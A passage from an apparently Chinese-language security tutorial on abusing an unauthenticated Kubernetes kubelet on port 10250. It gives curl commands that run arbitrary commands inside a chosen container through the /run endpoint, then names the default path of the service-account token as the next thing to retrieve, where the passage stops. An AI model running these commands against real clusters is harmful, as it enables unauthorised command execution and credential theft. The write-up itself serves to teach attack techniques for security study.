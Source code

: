 [![](assets/1698893355-8821cfdbddac18897e82eae8450a0257.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170847-1b1e44d6-7316-1.png)  
Step 3：执行命令  
可以通过一下命令再在对应的容器里执行命令：

```plain
#格式说明
curl -k -XPOST "https://k8s-node-1:10250/run/%namespace%/%pod_name%/%container_name%" -d "cmd=ls -la /"

#执行实例
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=ls -la /"
```

[![](assets/1698893355-799b7ab4a0bc9c25778f1d366a82c891.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170909-285474fe-7316-1.png)  
Step 4：检索Token信息  
默认情况下Token保存在/var/run/secrets/kubernetes.io/serviceaccount/token
